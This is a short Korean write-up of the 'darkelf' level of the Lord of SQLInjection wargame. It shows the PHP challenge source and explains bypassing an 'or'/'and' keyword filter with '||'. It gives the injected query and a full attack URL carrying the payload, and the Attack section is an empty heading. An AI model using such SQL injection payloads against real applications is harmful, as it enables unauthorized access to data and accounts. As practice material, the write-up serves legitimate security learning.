

# **LOS darkelf**

##  **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
`if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");` 에서 `and`와 `or` 을 검사한다. 따라서 `or` 과 같은 뜻인 `||` , `and` 와 같은 뜻인 `&` 의 hex 코드값인 `%26`를 사용하여 쿼리를 보내면 된다.
##  **Query**
>Query
```php
select id from prob_darkelf where id='guest' and pw='1' || id='admin'
```

>Input value
```
http://los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=1%27%20||%20id=%27admin
```

##  **Attack**
